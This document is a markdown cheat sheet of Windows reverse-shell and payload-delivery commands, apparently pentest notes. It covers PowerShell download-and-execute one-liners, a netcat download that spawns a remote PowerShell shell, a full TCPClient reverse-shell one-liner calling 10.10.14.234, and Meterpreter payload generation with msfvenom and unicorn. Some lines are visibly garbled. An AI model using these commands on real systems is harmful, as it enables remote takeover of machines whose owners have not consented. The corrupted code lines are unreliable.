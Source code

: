 

### Powershell

Invoke-Expression (UTF-16LE):

```
root@kali:$ echo -n "IEX (New-Object Net.WebClient).DownloadString('http://127.0.0.1/[1]')" | iconv -t UTF-16LE | base64 -w0; echo
PS > powershell -NoP -EncodedCommand <BASE64_COMMAND_HERE>
```

1. [github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

Invoke-WebRequest + `nc.exe` **[1]**:

```
PS > powershell -NoP IWR -Uri http://127.0.0.1/nc.exe -OutFile C:\Windows\Temp\nc.exe
PS > cmd /c C:\Windows\Temp\nc.exe 127.0.0.1 1337 -e powershell
```

1. [eternallybored.org/misc/netcat/](https://eternallybored.org/misc/netcat/)

System.Net.Sockets.TCPClient:

```
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.234",1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0,ytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendbac "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```


### Meterpreter

Powershell + msfvenom:

```
root@kali:$ msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 LHOST=127.0.0.1 LPORT=1337 -f exe > met.exe
PS > (New-Object Net.WebClient).DownloadFile("met.exe", "$env:TEMP\met.exe")
...start metasploit listener...
PS > Start-Process "$env:TEMP\met.exe"
```

Powershell + unicorn **[1]**:

```
root@kali:$ ./unicorn.py windows/meterpreter/reverse_https LHOST 443
root@kali:$ service postgresql start
root@kali:$ msfconsole -r unicorn.rc
PS > powershell -NoP IEX (New-Object Net.WebClient).DownloadString('powershell_attack.txt')
```

1. [github.com/trustedsec/unicorn](https://github.com/trustedsec/unicorn)



### Listeners


[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 spaces before)